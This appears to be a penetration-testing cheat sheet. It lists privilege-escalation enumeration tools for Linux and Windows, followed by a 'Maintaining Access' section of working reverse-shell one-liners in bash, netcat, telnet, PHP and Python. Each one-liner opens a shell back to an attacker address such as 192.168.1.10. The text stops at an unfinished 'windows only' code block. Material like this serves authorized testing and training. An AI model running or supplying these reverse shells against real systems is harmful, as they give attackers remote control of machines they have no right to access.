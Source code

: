 
## Privilege Escalation

### Local Enumeration

**Linux enumeration**

* https://github.com/rebootuser/LinEnum

**Linux exploit suggester**

* https://github.com/mzet-/linux-exploit-suggester

**Windows enumeration**

* https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc

**Windows privesc checker**

* https://github.com/pentestmonkey/windows-privesc-check

## Maintaining Access

### Reverse shells
**bash**
```
bash -i >& /dev/tcp/192.168.1.10/1234 0>&1
```
**netcat**
```
nc 192.168.1.10 1234 -e /bin/sh

nc.exe 192.168.1.10 1234 -e cmd.exe
```
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
**telnet**
```
rm -f /tmp/p; mknod /tmp/p p && telnet 192.168.1.10 1234 0/tmp/p
```
**php**
```
php -r '$sock=fsockopen("192.168.1.10",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
**python**
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.10",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

windows only:
```